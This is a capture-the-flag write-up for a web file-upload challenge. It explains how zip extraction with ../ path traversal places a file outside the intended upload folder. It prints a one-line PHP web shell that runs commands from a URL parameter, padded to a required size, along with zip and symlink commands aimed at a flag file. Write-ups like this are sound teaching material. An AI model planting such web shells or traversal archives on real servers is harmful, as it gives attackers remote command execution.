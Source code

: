 # Our Christmas wishlist (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

This is another file upload challenge where we can upload files.

![alt text](2.png "Chall")


* There are no limits on the extension. Any extension is OK.
* PHP execution is turned off in the folder
* .htaccess files are also disabled

Hmmm if we can't upload a php file, we can't get shell. Simple as that.

Playing around with it, I noticed in the challenge description that you can upload zip files.

![alt text](3.png "Chall")

Cool it extracted the files. This is unusual behavior. How can we exploit this?

Create a `shell.php` with a backdoor system command in it. The file also has to be 2000 bytes or else the upload refused to unzip the file. We pad with random numbers to get the exact filesize.

    According to @serega6531, it's possible to have a filesize less than 2000 bytes.

```
<?php
system($_GET["cmd"]);
?>
12341234123012304230412043012034012302341234213412341234123423423232344
12341231231112312321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
```

What if we upload a relative file.

* `$ zip payload.zip ../shell2.php`

We can now access the file at /uploads/shell.php instead of /uploads/random_hash/shell.php.

The file still only downloads which means the server never executes the php code, just sends the file back to the user.

I tried to upload a file to the root directory:

* `$ zip payload.zip ../../shell2.php`

And got an error message. We probably do not have permission to write there.

Hmm back to the drawing board. I also tried to upload symbolic links, but that didn't work either.
```bash
$ ln -s ../../flag.txt test.txt
$ zip --symlinks symbolic.zip test.txt
```

The output was just `../../flag.txt`.

Back to the first plan.

Looking back at the source I noticed the images are placed inside the img folder.

![alt text](4.png "Chall")

Maybe we can write to that directory.

![alt text](5.png "Chall")

Exploit script available here: [win.sh](win.sh)
